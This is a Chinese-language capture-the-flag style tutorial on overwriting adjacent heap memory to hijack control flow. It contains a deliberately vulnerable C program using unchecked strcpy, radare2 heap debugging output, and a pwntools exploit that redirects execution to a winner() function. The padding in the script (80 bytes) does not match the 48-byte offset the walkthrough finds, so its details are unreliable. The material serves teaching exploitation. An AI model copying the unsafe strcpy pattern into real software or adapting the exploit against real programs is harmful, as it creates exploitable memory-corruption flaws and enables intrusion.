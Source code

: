 ﻿覆盖相邻内存函数指针
========================================

示例代码
----------------------------------------
::

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>
	#include <time.h>
	#include <unistd.h>

	struct heapStructure {
	  int priority;
	  char *name;
	};

	int main(int argc, char **argv) {
	  struct heapStructure *i1, *i2;

	  i1 = malloc(sizeof(struct heapStructure));
	  i1->priority = 1;
	  i1->name = malloc(8);

	  i2 = malloc(sizeof(struct heapStructure));
	  i2->priority = 2;
	  i2->name = malloc(8);

	  strcpy(i1->name, argv[1]);
	  strcpy(i2->name, argv[2]);

	  printf("and that's a wrap folks!\n");
	}

	void winner() {
	  printf(
		  "Congratulations, you've completed this level @ %ld seconds past the "
		  "Epoch\n",
		  time(NULL));
	}
		
编译环境：
	+ 系统：Linux kali 5.10.0-kali9-amd64 #1 SMP Debian 5.10.46-4kali1 (2021-08-09) x86_64 GNU/Linux
	+ 编译：gcc heap.c -o heap
	+ 附件：`heap.c <..//_static//heap.c>`_
	
调试过程
----------------------------------------
::

	r2 -d -A heap AAAA BBBB
	
	[0x564dbc559228]> pd 50 @ main
            ; DATA XREF from entry0 @ 0x564dbc5590ad
	┌ 187: int main (int argc, char **argv, char **envp);
	│           ; var int64_t var_20h @ rbp-0x20
	│           ; var int64_t var_14h @ rbp-0x14
	│           ; var int64_t var_10h @ rbp-0x10
	│           ; var int64_t var_8h @ rbp-0x8
	│           ; arg int argc @ rdi
	│           ; arg char **argv @ rsi
	│           0x564dbc559179      55             push rbp
	│           0x564dbc55917a      4889e5         mov rbp, rsp
	│           0x564dbc55917d      4883ec20       sub rsp, 0x20
	│           0x564dbc559181      897dec         mov dword [var_14h], edi ; argc
	│           0x564dbc559184      488975e0       mov qword [var_20h], rsi ; argv
	│           0x564dbc559188      bf10000000     mov edi, 0x10           ; 16
	│           0x564dbc55918d      e8defeffff     call sym.imp.malloc     ;  void *malloc(size_t size)
	│           0x564dbc559192      488945f8       mov qword [var_8h], rax
	│           0x564dbc559196      488b45f8       mov rax, qword [var_8h]
	│           0x564dbc55919a      c70001000000   mov dword [rax], 1
	│           0x564dbc5591a0      bf08000000     mov edi, 8
	│           0x564dbc5591a5      e8c6feffff     call sym.imp.malloc     ;  void *malloc(size_t size)
	│           0x564dbc5591aa      4889c2         mov rdx, rax
	│           0x564dbc5591ad      488b45f8       mov rax, qword [var_8h]
	│           0x564dbc5591b1      48895008       mov qword [rax + 8], rdx
	│           0x564dbc5591b5      bf10000000     mov edi, 0x10           ; 16
	│           0x564dbc5591ba      e8b1feffff     call sym.imp.malloc     ;  void *malloc(size_t size)
	│           0x564dbc5591bf      488945f0       mov qword [var_10h], rax
	│           0x564dbc5591c3      488b45f0       mov rax, qword [var_10h]
	│           0x564dbc5591c7      c70002000000   mov dword [rax], 2
	│           0x564dbc5591cd      bf08000000     mov edi, 8
	│           0x564dbc5591d2      e899feffff     call sym.imp.malloc     ;  void *malloc(size_t size)
	│           0x564dbc5591d7      4889c2         mov rdx, rax
	│           0x564dbc5591da      488b45f0       mov rax, qword [var_10h]
	│           0x564dbc5591de      48895008       mov qword [rax + 8], rdx
	│           0x564dbc5591e2      488b45e0       mov rax, qword [var_20h]
	│           0x564dbc5591e6      4883c008       add rax, 8
	│           0x564dbc5591ea      488b10         mov rdx, qword [rax]
	│           0x564dbc5591ed      488b45f8       mov rax, qword [var_8h]
	│           0x564dbc5591f1      488b4008       mov rax, qword [rax + 8]
	│           0x564dbc5591f5      4889d6         mov rsi, rdx
	│           0x564dbc5591f8      4889c7         mov rdi, rax
	│           0x564dbc5591fb      e830feffff     call sym.imp.strcpy     ; char *strcpy(char *dest, const char *src)
	│           0x564dbc559200      488b45e0       mov rax, qword [var_20h]
	│           0x564dbc559204      4883c010       add rax, 0x10           ; 16
	│           0x564dbc559208      488b10         mov rdx, qword [rax]
	│           0x564dbc55920b      488b45f0       mov rax, qword [var_10h]
	│           0x564dbc55920f      488b4008       mov rax, qword [rax + 8]
	│           0x564dbc559213      4889d6         mov rsi, rdx
	│           0x564dbc559216      4889c7         mov rdi, rax
	│           0x564dbc559219      e812feffff     call sym.imp.strcpy     ; char *strcpy(char *dest, const char *src)
	│           0x564dbc55921e      488d05e30d00.  lea rax, str.and_thats_a_wrap_folks_ ; rdi
	│                                                                      ; 0x564dbc55a008 ; "and that's a wrap folks!"
	│           0x564dbc559225      4889c7         mov rdi, rax
	│           ;-- rip:
	│           0x564dbc559228 b    e813feffff     call sym.imp.puts       ; int puts(const char *s)
	│           0x564dbc55922d      b800000000     mov eax, 0
	│           0x564dbc559232      c9             leave
	└           0x564dbc559233      c3             ret
	┌ 40: sym.winner ();
	│           0x564dbc559234      55             push rbp
	│           0x564dbc559235      4889e5         mov rbp, rsp
	│           0x564dbc559238      bf00000000     mov edi, 0
	
	[0x564dbc559179]> db 0x564dbc559228
	[0x564dbc559179]> dc
	hit breakpoint at: 0x564dbc559228
	[0x564dbc559228]> dmh

	  Malloc chunk @ 0x564dbd7a1290 [size: 0x20][allocated]
	  Malloc chunk @ 0x564dbd7a12b0 [size: 0x20][allocated]
	  Malloc chunk @ 0x564dbd7a12d0 [size: 0x20][allocated]
	  Malloc chunk @ 0x564dbd7a12f0 [size: 0x20][allocated]
	  Top chunk @ 0x564dbd7a1310 - [brk_start: 0x564dbd7a1000, brk_end: 0x564dbd7c2000]
	
	[0x564dbc559228]> dmhg
	Heap Layout
	┌────────────────────────────────────┐
	│    Malloc chunk @ 0x564dbd7a1290   │
	│ size: 0x20 status: allocated       │
	└────────────────────────────────────┘
		v
		│
		│
	┌────────────────────────────────────┐
	│    Malloc chunk @ 0x564dbd7a12b0   │
	│ size: 0x20 status: allocated       │
	└────────────────────────────────────┘
		v
		│
		│
	┌────────────────────────────────────┐
	│    Malloc chunk @ 0x564dbd7a12d0   │
	│ size: 0x20 status: allocated       │
	└────────────────────────────────────┘
		v
		│
		│
	┌────────────────────────────────────┐
	│    Malloc chunk @ 0x564dbd7a12f0   │
	│ size: 0x20 status: allocated       │
	└────────────────────────────────────┘
		v
		│
		└──┐
		   │
	   ┌───────────────────────────────┐
	   │  Top chunk @ 0x564dbd7a1310   │
	   └───────────────────────────────┘

	[0x564dbc559228]> pxw 0xA0 @ 0x564dbd7a1290
	0x564dbd7a1290  0x00000000 0x00000000 0x00000021 0x00000000  ........!.......
	0x564dbd7a12a0  0x00000001 0x00000000 0xbd7a12c0 0x0000564d  ..........z.MV..
	0x564dbd7a12b0  0x00000000 0x00000000 0x00000021 0x00000000  ........!.......
	0x564dbd7a12c0  0x41414141 0x00000000 0x00000000 0x00000000  AAAA............
	0x564dbd7a12d0  0x00000000 0x00000000 0x00000021 0x00000000  ........!.......
	0x564dbd7a12e0  0x00000002 0x00000000 0xbd7a1300 0x0000564d  ..........z.MV..
	0x564dbd7a12f0  0x00000000 0x00000000 0x00000021 0x00000000  ........!.......
	0x564dbd7a1300  0x42424242 0x00000000 0x00000000 0x00000000  BBBB............
	0x564dbd7a1310  0x00000000 0x00000000 0x00020cf1 0x00000000  ................
	0x564dbd7a1320  0x00000000 0x00000000 0x00000000 0x00000000  ................
	
	[0x564dbc559228]> dmhc @ 0x564dbd7a1290
	struct malloc_chunk @ 0x564dbd7a1290 {
	  prev_size = 0x0,
	  size = 0x20,
	  flags: |N:0 |M:0 |P:1,
	  fd = 0x1,
	  bk = 0x564dbd7a12c0,
	}
	chunk data = 
	0x564dbd7a12a0  0x0000000000000001  0x0000564dbd7a12c0   ..........z.MV..
	
	[0x564dbc559228]> dmhc @ 0x564dbd7a12b0
	struct malloc_chunk @ 0x564dbd7a12b0 {
	  prev_size = 0x0,
	  size = 0x20,
	  flags: |N:0 |M:0 |P:1,
	  fd = 0x41414141,
	  bk = 0x0,
	}
	chunk data = 
	0x564dbd7a12c0  0x0000000041414141  0x0000000000000000   AAAA............
	
	[0x564dbc559228]> dmhc @ 0x564dbd7a12d0
	struct malloc_chunk @ 0x564dbd7a12d0 {
	  prev_size = 0x0,
	  size = 0x20,
	  flags: |N:0 |M:0 |P:1,
	  fd = 0x2,
	  bk = 0x564dbd7a1300,
	}
	chunk data = 
	0x564dbd7a12e0  0x0000000000000002  0x0000564dbd7a1300   ..........z.MV..
	
	[0x564dbc559228]> dmhc @ 0x564dbd7a12f0
	struct malloc_chunk @ 0x564dbd7a12f0 {
	  prev_size = 0x0,
	  size = 0x20,
	  flags: |N:0 |M:0 |P:1,
	  fd = 0x42424242,
	  bk = 0x0,
	}
	chunk data = 
	0x564dbd7a1300  0x0000000042424242  0x0000000000000000   BBBB............
	
	分析利用
	# ragg2 -P 200 -r
	AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA
	
	└─# r2 -d -A heap AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA 0000
	Process with PID 48897 started...
	= attach 48897 48897
	bin.baddr 0x55fc75030000
	Using 0x55fc75030000
	asm.bits 64
	[x] Analyze all flags starting with sym. and entry0 (aa)
	[x] Analyze function calls (aac)
	[x] Analyze len bytes of instructions for references (aar)
	[x] Check for vtables
	[TOFIX: aaft can't run in debugger mode.ions (aaft)
	[x] Type matching analysis for all functions (aaft)
	[x] Propagate noreturn information
	[x] Use -AA or aaaa to perform additional experimental analysis.
	[0x7f276eebd050]> 
	
	[0x55fc75031179]> db 0x55fc75031200		;第一个strcpy运行后
	[0x55fc75031179]> dc
	hit breakpoint at: 0x55fc75031200
	[0x55fc75031200]> dmh

	  Malloc chunk @ 0x55fc761c0290 [size: 0x20][allocated]
	  Malloc chunk @ 0x55fc761c02b0 [size: 0x20][allocated]
	  Malloc chunk @ 0x55fc761c02d0 [corrupted]
	   size: 0x414b41414a414149
	   fd: 0x4e41414d41414c41, bk: 0x41415041414f4141

	  Top chunk @ 0x55fc761c0310 - [brk_start: 0x55fc761c0000, brk_end: 0x55fc761e1000]

	[0x55fc75031200]> 
	
	[0x55fc75031200]> dmhc @ 0x55fc761c02d0
	struct malloc_chunk @ 0x55fc761c02d0 {
	  prev_size = 0x4141484141474141,
	  size = 0x414b41414a414148,
	  flags: |N:0 |M:0 |P:1,
	  fd = 0x4e41414d41414c41,
	  bk = 0x41415041414f4141,
	  fd-nextsize = 0x4153414152414151,
	  bk-nextsize = 0x5641415541415441,
	}
	chunk too big to be displayed
	chunk data = 
	0x55fc761c02e0  0x4e41414d41414c41  0x41415041414f4141   ALAAMAANAAOAAPAA
	........
	[0x55fc75031200]> wopO 0x4153414152414151		;查找数据位置
	48
	
编写EXP
----------------------------------------
::

	from pwn import *
	elf = context.binary = ELF('./heap')
	payload = (b'A' * 80 + flat(elf.sym['winner']+0x555555554000)).replace(b'\x00', b'')
	p = elf.process(argv=[payload])
	print(p.clean().decode('latin-1'))
	
	注：0x555555554000为程序加载基址，系统关闭pie。
